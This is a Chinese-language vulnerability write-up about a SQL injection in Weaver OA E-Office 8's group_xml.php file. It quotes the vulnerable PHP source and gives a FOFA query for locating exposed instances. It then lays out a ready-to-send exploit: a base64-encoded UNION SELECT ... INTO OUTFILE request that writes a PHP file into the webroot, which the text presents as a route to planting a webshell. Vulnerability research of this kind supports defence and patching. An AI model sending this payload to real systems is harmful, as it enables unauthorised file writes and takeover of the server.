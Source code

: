 # 泛微OA E-Office group_xml.php SQL注入漏洞

## 漏洞描述

泛微OA E-Office group_xml.php文件存在SQL注入漏洞，攻击者通过漏洞可以写入Webshell文件获取服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office 8 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383.png)

存在漏洞的文件为 `inc/group_user_list/group_xml.php`

```javascript
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
				exit( );
}
$groupurl_fix = "?";
$userurl_fix = "?";
if ( 0 < strpos( $pararr['group_url'], "?" ) )
{
				$groupurl_fix = "&";
}
if ( 0 < strpos( $pararr['user_url'], "?" ) )
{
				$userurl_fix = "&";
}
$xtreeXml = new xtreeXml( );
$xtreeXml->initXml( );
if ( $pararr['group'] == 1 )
{
				$sql = "SELECT * FROM pub_group WHERE GROUP_ID=".$groupid."";
}
else
{
				$sql = "SELECT * FROM USER,USER_GROUP WHERE USER_GROUP.GROUP_ID=".$groupid."";
}
$rs = exequery( $connection, $sql );
$row = mysql_fetch_array( $rs );
$groupmember = $row['GROUP_MEMBER'];
```

$groupid没有被双引号包裹，然后造成注入。然后$groupid来自于$pararr['groupid'];其中经过了$explodestpar这个函数

```javascript
function explodeStPar( $enpar )
{
				$depar = base64_decode( $enpar );
				$arrpar = explode( "|", $depar );
				if ( !is_array( $arrpar ) )
				{
								return false;
				}
				$i = 0;
				for ( ;	$i < sizeof( $arrpar );	++$i	)
				{
								$strpar = $arrpar[$i];
								$tmparr = explode( ":", $strpar );
								$j = 0;
								for ( ;	$j < sizeof( $tmparr );	++$j	)
								{
												if ( $j == 0 )
												{
																preg_match( "/\\[([a-z0-9-_].+)\\]/i", $tmparr[$j], $exp );
																$par = $exp[1];
												}
												else
												{
																preg_match( "/\\[(.*)\\]/i", $tmparr[$j], $exp );
																$val = $exp[1];
												}
								}
								if ( trim( $par ) != "" )
								{
												$rearr[$par] = $val;
								}
				}
				return $rearr;
}
```

构造EXP写入文件

```javascript
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646124852775-28ff0359-2eee-4921-b752-4db7ebb49328.png)